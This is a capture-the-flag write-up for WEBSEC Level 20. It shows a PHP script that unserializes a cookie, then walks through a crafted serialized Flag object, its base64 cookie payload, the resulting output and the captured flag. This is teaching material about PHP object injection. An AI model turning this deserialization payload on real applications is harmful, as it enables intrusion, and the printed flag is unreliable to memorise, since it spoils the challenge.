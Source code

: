 # WEBSEC Level 20


### Challenge description

Call me maybe

### Initial analysis
` <?php

include "flag.php";

class Flag {
    public function __destruct() {
       global $flag;
       echo $flag; 
    }
}

if (isset ($_POST['value']) and ! empty ($_POST['value'])) {
    /* Add a value twice to remove it from the list. */
    if (($key = array_search ($_POST['value'], $data)) !== false) {
        unset ($data[$key]);
    } else { /* Else, simply add it. */
        array_push ($data, $_POST['value']);
    }
    setcookie ('data', base64_encode (serialize ($data)));
}

?>`

### Walk through
STEP 1: Serialize the Flag class object with custom with Custom Object 
OUTPUT: C:4:"Flag":0:{}

STEP 2: Base64 Encode of Output 
OUTPUT: Qzo0OiJGbGFnIjowOnt9

STEP 3: Set the cookie value(data) as Qzo0OiJGbGFnIjowOnt9 
OUTPUT: I threw a class in the well Don't ask me I'll never tell I looked at you as it fell And now you're in my way I trade my soul for a shell Pennies and dimes for a leak I wasn't looking for this But now you're in my way Your stare was holding Ripped code stacktrace was showing Hot night Wind was blowing Where you think you're going baby? Hey I just met you And this is crazy But here's my method So call it maybe It's hard to look right at you baby But here's my method So call it maybe Hey I just met you And this is crazy But here's my method So call it maybe And all the other hackers Try to chase me But here's it method So call me maybe WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}

### Flag

**FLAG**: `WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.
